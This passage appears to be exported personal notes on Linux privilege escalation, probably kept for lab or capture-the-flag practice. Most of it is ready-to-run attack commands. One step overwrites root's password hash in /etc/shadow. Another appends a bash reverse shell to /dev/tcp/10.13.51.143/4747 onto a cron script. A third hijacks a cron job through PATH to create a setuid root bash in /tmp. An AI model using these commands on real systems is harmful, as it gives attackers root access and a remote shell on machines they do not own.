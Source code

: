 

Generate a new password hash with a password of your choice:
```shell
mkpasswd -m sha-512 newpasswordhere
```

Edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.

Switch to the root user, using the new password:

	su root

</div></div>

## Cron jobs exploiting
Look for jobs, and try to exploit them
```shell
/etc/crontab
/etc/cron.d
/etc/rc.d/
/etc/init.d
/var/spool/cron
```
### 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



check permissions of the scripts
and add a basic bash
```shell
echo 'bash -i>&/dev/tcp/10.13.51.143/4747 0>&1' >> /script.sh
```


</div></div>

### 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



- check the crontabs
- If a script exist with no direct path like
`* * * * * root overwrite.sh`
- We can check if we have permissions to create an imitate script in some dir of the PATH
`PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`
- If it's possible, create a script and make exec,
- one options is make a copy of the root bash
```shell
#!/bin/bash  
  
cp /bin/bash /tmp/rootbash  
chmod +xs /tmp/rootbash
```

- Run the /tmp/rootbash command with -p to gain a shell running with root privileges:
	`/tmp/rootbash -p`

